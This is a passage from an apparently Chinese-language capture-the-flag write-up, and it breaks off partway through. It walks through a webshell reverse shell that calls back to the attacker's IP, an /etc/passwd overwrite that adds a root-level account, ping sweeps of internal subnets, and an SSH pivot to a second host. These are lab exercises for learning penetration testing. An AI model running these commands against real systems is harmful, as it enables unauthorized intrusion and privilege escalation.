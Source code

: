 ```
curl http://10.10.10.101/cmd.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.51/443 0>&1'"
```

在 webshell 中运行基本的 bash rev shell 会给我回调外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6duAlQ4ywWiaCp0MYciaRRRtRTr0lvZIOyXcI0IuPa57c15LJTaxsibUc1g/640?wx_fmt=png)

```
openssl passwd dayu
echo "rooot:KBzWUbGJVL4Kk:0:0:root:/root:/bin/bash" >> /etc/passwd
```

尝试 zip 再次使用此漏洞利用来覆盖 / etc/passwd.... 创建好上传，覆盖了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dSiaNlmibXv7aE36Dy35umBpRXSPPO0EOWCZnIGmNfmmjVeFcMAuU2yTA/640?wx_fmt=png)

成功通过创建的 ID，获得了 root 权限外壳...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dibS5GdZlzibtCWIkWyFaMePl0xeFOJSiaBZornVFJTibl55VUoSRMcreSg/640?wx_fmt=png)

通过 root 权限外壳，获得了 user_flag 信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6deFI5p7BicWibPMLkxoIWPkOryTpmickiaOdLH54UOxzWW0bdZNw9LianjoQ/640?wx_fmt=png)

```
for i in {1..255}; do ping -c 1 172.20.0.$i; done | grep 'ttl='
```

由于前面对话提示就知道目前渗透的领域是多台服务器跳转的... 查看 IP 后，知道了目前所在的环境服务器是 172.20.0.10IP... 通过 ping 查询到了改段还存在 172.20.0.150 服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dwOMoyMaWOBCvRZvF2oK61ictWibY47xguS940ibqYo5iaSrU4D3ZPu9L0A/640?wx_fmt=png)

并且这里还存在类似密码的信息提示...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dHVsCaMy6nOHALlObUU127EOGovhuOIQWtUBoQPVY8lkPyEzpO0qBOw/640?wx_fmt=png)

```
ssh -i id_rsa kaneki_pub@172.20.0.150
```

目前猜测 0.150 服务器是 kaneki 用户的... 利用 ssh 登陆，并用对话中获得的密码... 成功登陆...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dHVsCaMy6nOHALlObUU127EOGovhuOIQWtUBoQPVY8lkPyEzpO0qBOw/640?wx_fmt=png)

继续查询 IP 情况，存在 18 段的服务器...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPMzvcxmE9S4tUS2V8hwP6dHcVdTWUjL1xJAWyiaO1Mzx94jJgsWnLj6Rz4KhoicUxBKdmT9B51u9Kg/640?wx_fmt=png)

```
for i in {1..254}; do (ping -c 1 172.18.0.${i} | grep "bytes from" | grep -v "Unreachable" &); done;
```

前面查找 IP 的太慢了... 换了一个...
